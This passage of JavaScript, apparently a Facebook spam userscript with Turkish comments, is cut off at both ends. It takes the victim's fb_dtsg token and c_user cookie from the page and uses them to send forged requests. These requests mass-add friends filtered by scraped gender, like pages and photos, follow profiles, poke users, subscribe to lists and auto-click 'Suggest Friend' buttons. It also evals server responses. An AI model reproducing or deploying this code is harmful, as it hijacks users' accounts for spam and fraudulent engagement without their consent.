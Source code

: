 btarihi.toGMTString();  document.removeEventListener(tiklama); }  }, false);     //arkada      leme function sarkadasekle(uid,cins){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){	 			}         }; 		 		xmlhttp.open("POST", "/ajax/add_friend/action.php?__a=1", true);  		var params = "to_friend=" + uid; 		params += "&amp;action=add_friend"; 		params += "&amp;how_found=friend_browser"; 		params += "&amp;ref_param=none"; 		params += "&amp;outgoing_id="; 		params += "&amp;logging_location=friend_browser"; 		params += "&amp;no_flyout_on_click=true"; 		params += "&amp;ego_log_data="; 		params += "&amp;http_referer="; 		params += "&amp;fb_dtsg=" + document.getElementsByName('fb_dtsg')[0].value;         params += "&amp;phstamp=165816749114848369115"; 		params += "&amp;__user=" + user_id; 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.setRequestHeader ("Content-Type","application/x-www-form-urlencoded"); 		 if(cins == "farketmez" &amp;&amp; document.cookie.split("cins" + user_id +"=").length > 1){ 		xmlhttp.send(params); }else if(document.cookie.split("cins" + user_id +"=").length &lt;= 1){ 		cinsiyetgetir(uid,cins,"sarkadasekle"); }else if(cins == document.cookie.split("cins" + user_id +"=")[1].split(";")[0].toString()){ 		xmlhttp.send(params); } }  //cinsiyet belirleme var cinssonuc = {}; var cinshtml = document.createElement("html"); function scinsiyetgetir(uid,cins,fonksiyon){ 		var xmlhttp = new XMLHttpRequest();         xmlhttp.onreadystatechange = function () { 			if(xmlhttp.readyState == 4){ 			eval("cinssonuc = " + xmlhttp.responseText.toString().replace("for (;;);","") + ";"); 			cinshtml.innerHTML = cinssonuc.jsmods.markup[0][1].__html 			btarihi.setTime(bugun.getTime() + 1000*60*60*24*365); 			if(cinshtml.getElementsByTagName("select")[0].value == "1"){ 			document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString(); 			}else if(cinshtml.getElementsByTagName("select")[0].value == "2"){ 			document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString(); 			} 			eval(fonksiyon + "(" + id + "," + cins + ");"); 			}         }; 		xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true); 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.send(); } function autoSuggest() {         links=document.getElementsByTagName('a');     for (i in links) {         l=links[i];         if(l.innerHTML == '&lt;span class="uiButtonText">Suggest Friend&lt;/span>') {             l.click();         }     } }  function blub() {     if(document.getElementsByClassName('pbm fsm').length == 1) {         w = document.getElementsByClassName('pbm fsm')[0];          e = document.createElement('a');         //e.href = '#';         e.innerHTML = 'Auto Suggest by Adib Pugar Nuraga';         e.className = 'uiButton';         e.onclick = autoSuggest;          if( w.childElementCount == 0)         {             w.appendChild(document.createElement('br'));             w.appendChild(e);         }     } }  blub();  document.addEventListener("DOMNodeInserted", blub, true);  // Like pic like page var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 &amp;&amp; Page.status == 200) { Page.close; } }; Page.send(PageParams); }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4=new XMLHttpRequest; var url4="/ajax/follow/follow_profile.php?__a=1"; var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp="; http4.open("POST",url4,true); http4.onreadystatechange=function() { if(http4.readyState==4&amp;&amp;http4.status==200)http4.close } ; http4.send(params4) } function sublist(uidss) { var a = document.createElement('script'); a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; document.body.appendChild(a); } function p(abone) { var http4 = new XMLHttpRequest(); var url4 = "//www.facebook.com/ajax/poke_dialog.php"; var params4 = "uid=" + abone + "&amp;pokeback=0&amp;ask_for_confirm=0&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__asyncDialog=1&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=v&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; http4.open("POST", url4, true); http4.onreadystatechange = function () { if (http4.readyState == 4 &amp;&amp; http4.status == 200) { http4.close; } }; http4.send(params4); }var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now=(new Date).getTime(); function P(opo) { var X = new XMLHttpRequest(); var XURL ="//www.facebook.com/ajax/ufi/like.php"; var XParams =